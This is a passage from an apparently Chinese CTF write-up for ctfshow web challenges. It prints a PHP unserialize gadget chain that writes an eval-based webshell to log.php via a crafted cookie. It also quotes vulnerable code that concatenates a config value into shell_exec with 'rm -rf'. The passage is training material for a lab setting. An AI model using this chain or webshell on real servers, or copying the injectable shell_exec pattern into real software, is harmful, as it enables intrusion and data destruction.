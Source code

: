 正好包含了 `dao.php` ,而且有反序列化 `unserialize`。

Exp:

```php
<?php
class dao{
	private $conn;

	public function __construct(){
		$this->conn=new log();
	}

	public function __destruct(){
		$this->conn->close();
	}
}

class log{
	public $title='log.php';
	public $info='<?php eval($_POST[1]);?>';

	public function close(){
		file_put_contents($this->title, $this->info);
	}

}

echo base64_encode(serialize(new dao()));
```

把得到的字符串当作 cookie user 值访问 index.php,就可写入shell.

## web307

下载： https://ctfshow.lanzous.com/iQQhxjgy8bi

![image-20210209162945537](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210209162945537.png)

使用 seay 发现两处疑似漏洞点，第一处由于方法名 `closelog` 漏洞点无法利用。

第二处：

dao.php

```php
public function  clearCache(){
		shell_exec('rm -rf ./'.$this->config->cache_dir.'/*');
	}
```

我们可以通过 seay 全局搜索函数的功能找到那里调用此函数。

![image-20210209163123533](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210209163123533.png)
